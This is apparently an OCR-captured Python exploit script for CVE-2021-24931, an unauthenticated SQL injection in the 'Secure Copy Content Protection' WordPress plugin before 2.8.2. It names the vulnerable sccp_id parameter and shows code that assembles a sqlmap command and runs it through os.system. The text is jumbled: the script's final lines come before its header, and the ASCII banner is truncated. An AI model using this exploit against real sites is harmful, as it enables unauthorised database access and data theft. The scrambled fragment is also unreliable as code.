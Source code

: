 retrieve_mode = input('Which sqlmap option should be used to retrieve your information? ')
exploitcode = exploitcode_url + exploitcode_risk + exploitcode_cookie + retrieve_mode + ' -p status -v 0 --answers="follow=Y" --batch'
os.system(exploitcode)
print('Exploit finished at: ' + str(datetime.now().strftime('%H:%M:%S')))
     # Exploit Title: WordPress Plugin Secure Copy Content Protection and Content Locking 2.8.1 - SQL-Injection (Unauthenticated)
# Date 08.02.2022
# Exploit Author: Ron Jost (Hacker5preme)
# Vendor Homepage: https://ays-pro.com/
# Software Link: https://downloads.wordpress.org/plugin/secure-copy-content-protection.2.8.1.zip
# Version: < 2.8.2
# Tested on: Ubuntu 20.04
# CVE: CVE-2021-24931
# CWE: CWE-89
# Documentation: https://github.com/Hacker5preme/Exploits/blob/main/Wordpress/CVE-2021-24931/README.md

'''
Description:
The Secure Copy Content Protection and Content Locking WordPress plugin before 2.8.2 does not escape the
sccp_id parameter of the ays_sccp_results_export_file AJAX action (available to both unauthenticated
and authenticated users) before using it in a SQL statement, leading to an SQL injection.
'''

banner = '''

 .--. .-..-. .--.       .---.  .--. .---.   ,-.       .---.   .-. .--. .----.  ,-.
: .--': :: :: .--'      `--. :: ,. :`--. :.'  :       `--. : .'.': .; :`--  ;.'  :
: :   : :: :: `;  _____   ,',': :: :  ,',' `: : _____   ,','.'.'_`._, : .' '  `: :
: :__ : `' ;: :__:_____:.'.'_ : :; :.'.'_   : ::_____:.'.'_ :_ ` :  : : _`,`.  : :
`.__.' `.,' `.__.'      :____;`.__.':____;  :_;       :____;  :_:   :_:`.__.'  :_;
                            